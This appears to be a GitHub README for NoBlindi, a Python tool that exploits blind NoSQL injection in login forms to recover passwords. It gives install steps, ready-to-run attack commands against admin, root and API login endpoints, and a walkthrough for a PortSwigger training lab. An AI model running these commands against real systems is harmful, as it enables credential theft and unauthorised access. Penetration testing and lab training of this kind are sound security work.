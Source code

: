 # NoBlindi
This tool is designed for testing the security of NoSQL databases in web applications. It focuses on identifying and exploiting blind NoSQL injection vulnerabilities to recover passwords. It's a command-line tool, making it easy to integrate into various testing workflows.
<p align="center"><img src="https://github.com/YasserREED/NoBlindi/assets/79475504/0b3ca6b0-752f-48fe-bc11-362b89f2ece8"></p>


![](https://img.shields.io/badge/Version-%20v1.0.0-blue)
![](https://img.shields.io/badge/Twitter-%20YasserREED-blue)
![](https://img.shields.io/badge/YouTube-%20YasserRED-red)

#### Features:
- **Blind NoSQL Injection for Password Recovery**
- **Customizable Parameters for Targeted Attacks**
- **Simple Command-Line Interface**
- **Cross-Platform Compatibility and Support**

## Installation 

#### Copy this Link
```
sudo git clone https://github.com/YasserREED/NoBlindi.git
```
#### Enter The File
```
cd NoBlindi/
```
#### Download requirement library
```
pip install -r requirements.txt
```
#### Open the tool by `python3`
```
python3 NoBlindi.py -h
```

<br>

## NoBlindi Help Guide

```
python3 NoBlindi.py -h
```

```
python3 NoBlindi.py -u https://example.com/login -uf 'username' -pf password -rn 'admin' -b '{"username":"", "password":""}' -sc 200 -f "Invalid credentials"
python3 NoBlindi.py -u https://example.com/login -uf 'user' -un 'admin' -pf 'pass' -b '{"user":"", "pass":"", "redirect":"/dashboard", "security_question":"", "security_answer":""}' -sc 302 --redirect -sh "Authorization" -f "Login failed"
python3 NoBlindi.py -u https://examplecorp.com/admin -uf 'login' -pf password -un 'superadmin' -b '{"login":"", "password":"start123!", "last_active_timestamp":"", "login_count":"", "account_status":"active"}' -sc 200 -f "Access Denied"
python3 NoBlindi.py -u https://internalsite.example.org/login -uf 'username' -un 'root' -b '{"username":"", "password":"", "otp_code":"", "session_expiry":"1hr", "browser_info":"Mozilla/5.0"}' -sc 200 - "*+.?|{}[]"
python3 NoBlindi.py -u https://api.example.com/v1/authenticate -uf 'email' -un 'johndoe@example.com' -pf 'pwd' -b '{"email":"", "pwd":"", "api_key":"", "request_time":"2023-03-15T12:00:00Z", "client_version":"1.2.3"}' -sc 200 -sh "JWT-Token" -f "Unauthorized
```

<br>

## Usage

### Simple example:
```
python3 NoBlindi.py -u https://www.attacker.com/login -uf 'username' -pf password --username 'admin' -b '{"username":"", "password":""}'
```

### Make custom condition to check will status code 200 and login failed message:
```
python3 NoBlindi.py -u https://www.attacker.com/login -uf 'username' -pf password --username 'admin' -b '{"username":"", "password":""}' -success_code 200 -f "Invalid username or password"
```

<br>

## Portswigger Lab

1- Access the Lab: https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication

2- Use this command to solve the protswigger lab and retrieve the admin password:

```
python3 NoBlindi.py -u https://0a7a0055033f04f080539ef200bc00b5.web-security-academy.net/login  -uf 'username' -pf password -rn 'admin' -b '{"username":"", "password":""}' -sc 302 -rn 'admin' -r
```

### When we run the command:
![image](https://github.com/YasserREED/NoBlindi/assets/79475504/4a8d5682-ab1e-411c-94c4-f6803fdaaadf)

### After the tool is finished:
![image](https://github.com/YasserREED/NoBlindi/assets/79475504/fa5cc2ce-7654-4dac-b9b3-beb6af768fab)

---
<p align="center"> Enjoy! :heart_on_fire: </p>
